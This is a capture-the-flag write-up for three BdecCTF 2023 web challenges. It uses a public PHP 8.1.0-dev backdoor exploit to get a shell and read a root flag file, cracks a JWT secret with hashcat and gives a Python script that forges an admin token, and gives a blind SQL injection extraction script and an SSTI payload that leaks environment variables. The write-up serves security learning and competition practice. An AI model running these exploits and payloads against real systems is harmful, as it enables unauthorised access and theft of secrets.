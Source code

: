 ```yaml
---
title: "BdecCTF 2023 - webx3"
excerpt: "📅 Time: Thursday, 20 July 2023, 22:00 ICT (one month ago) — Friday, 21 July 2023, 22:00 ICT (one month ago) (~GMT +7)
✅ Rating weight: 12.23 :bully:
💻 Official URL: https://2023.bdsec-ctf.com"
header:
show_date: true
header:
  teaser: "https://hackmd.io/_uploads/Bk4JqAi9n.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/Bk4JqAi9n.png">
</p>

# Can you see me?

Description: 


<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/HyIfqAjch.png"/>

The description says quite a bit about php, so I focused on testing php but didn't get much results. I noticed that the web application using `PHP/8.1.0-dev` has a public exploit code.

![](https://hackmd.io/_uploads/BJ-IZy2q3.png)


Here is the PoC: [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933)

Solution:
```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ python 1.py
Enter the full host url:
http://139.144.184.115:8989/

Interactive shell is opened on http://139.144.184.115:8989/ 
Can't acces tty; job crontol turned off.
$ ls
index.php

$ ls /root
flag.txt

$ cat /root/flag.txt
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}

```


# What is 5 minus 4?

Description:

<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/SyXXdJ39h.png"/>


Solution:
Try crack JWT to find secret

```
Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5MDIwMDYwNywianRpIjoiM2JjMzE5MDQtMmZlMy00MjAwLThmNzEtYTQyNmEyYjA5OTMyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6OTY0MiwibmJmIjoxNjkwMjAwNjA3LCJleHAiOjE2OTAyMDE1MDd9.aQWBkU0Sn0vyHzdPy86g76UU_dWe-Tw14_EQKv8NNIY
```

i will use hashcat.

```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ hashcat -h | grep 16500
  16500 | JWT (JSON Web Token)                                       | Network Protocol

```

Run crack jwt:
```
┌──(taiwhis㉿kali)-[~/Downloads]
└─$ hashcat -a 0 -m 16500 1.txt wordlist.txt                                    
hashcat (v6.2.6) starting

```

Secret key: `this_is_a_dev_secret`
now i can edit the jwt to elevate the account permissions.


<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/HknNOxh5n.png"/>

now i will change the jwt in the `sub` to `1`. is's admin account.

Jwt after it was fixed.

```
Cookie: access_token_cookie=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6dHJ1ZSwiaWF0IjoxNjkwMjAzOTg5LCJqdGkiOiI4OWY3YjE4MC00Yzc5LTQxZTktODdhNi1jYzIxMmQ5MjY4NzciLCJ0eXBlIjoiYWNjZXNzIiwic3ViIjoxLCJuYmYiOjE2OTAyMDM5ODksImV4cCI6MTY5MDIwNDg4OX0.EF-tYblAP56RG2bWuhuc_KyDZgvELj4058M74pW2fVc
```

Using the modified JWT we can get the flag.

![](https://hackmd.io/_uploads/HkU6_x39n.png)

Script:

```python=
import requests
import string
import random
import jwt

url = "http://45.56.116.251:5050/"
secret = "this_is_a_dev_secret"

def session_requests(sess, method, endpoint, data=None):
    try:
        if method == 'POST':
            response = sess.post(url + endpoint, data=data)
        else:
            response = sess.get(url + endpoint, data=data)
        response.raise_for_status()
        return response.text
    except requests.exceptions.RequestException as e:
        print(f"Have error: {e}")
        return None

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))
    session_requests(session, 'POST', 'signup', { 'username':username,'name':username,'description':'lll','password':'lll' })
    session_requests(session, 'POST', 'login', { 'username':username,'password':'lll' } )
    
    old_jwt = session.cookies.get_dict()['access_token_cookie']
    
    decode_jwt = jwt.decode(old_jwt, secret, algorithms=["HS256"])
    decode_jwt['sub'] = 1 # sub of admin
    new_jwt = jwt.encode(decode_jwt, secret, algorithm="HS256")
    
    res = requests.get(url + 'profile', headers={ 'Cookie': 'access_token_cookie=' + new_jwt }) # request with another session
    print(res.text)
```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 1.py
<!DOCTYPE html>
<html>

.........
                
<div class="box">
  <h1 class="title">
    Welcome, admin
  </h1>
  <p class="content"> BDSEC{m4k3_y0ur_53cr37_k3y_57r0n63r} </p>
</div>

            </div>
        </div>
    </section>
</body>
</html>
```

# Injection

Description:

<img style="display:block;margin:0 auto;"
     src="https://hackmd.io/_uploads/ByFtgQhq3.png"/>

Source code [here](https://drive.google.com/drive/folders/1NERMdtbud-3ZvPzdRCRnt1Qw39gFeKHy?usp=sharing).


I didn't solve this challenge, so after this CTF ended I consulted from everyone in discord.
There is basically a 2022 CTF that has the same idea as this challenge.
Refer click [ductf-sqli2022](https://www.justinsteven.com/posts/2022/09/27/ductf-sqli2022/).

My script solution:

```
output = cur.execute(
        'SELECT * FROM users WHERE username = {data[username]!r} AND password = {data[password]!r}'
        .format(data=data)
    ).fetchone()

```

in the source code contains a SQL injection vulnerability. I will try to focus mining here. However, FLAG is md5 encrypted and it is very likely that getting the flag will be difficult to decrypt.

Dump password `admin`:
```python
import requests
from hashlib import md5
import string

url = "http://139.144.184.115:1337/login"
session = requests.session()

password = ""

chars = string.digits + string.ascii_lowercase

for i in range(32):
    for m in chars:
        query = f'(SELECT hex(substr(password, {i+1}, 1)) FROM users WHERE username = "admin") = "{m.encode("utf-8").hex()}"'
        data = { "username" : "aaa\"'","password" : f"OR {query};-- -" }
        res = session.post(url, data)
        if 'You cant Hack Uss!!!' in res.text:
            password += m
            print("Found: ", m)

print("Password", password)
```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Password: 98371fd6630a26b9f04d623a6ea3d0af
```

SSTI leaked environment variable:

You can see the username after being logged in will be returned here. Therefore, it can be used to insert the SSTI payload.

```py=
return f'Yoo!! {data["username"]}!'.format(data=data)
```

* To be able to display this message need:
    * SQL must return a row from the database
    * Also username and password must match the data in the database.

Solution script:  
username:
`"\'UNION SELECT printf(char(34,92,39)||s,char(34),s,char(34)),1||1 FROM(SELECT"UNION SELECT printf(char(34,92,39)||s,char(34),s,char(34)),1||1 FROM(SELECT%c%s%cs)--{data.__class__.__copy__.__globals__[mimetypes].os.environ[FLAG]}"s)--`

Flag: `BDSEC{f1nj3c710n5_4r3_p41nful}`
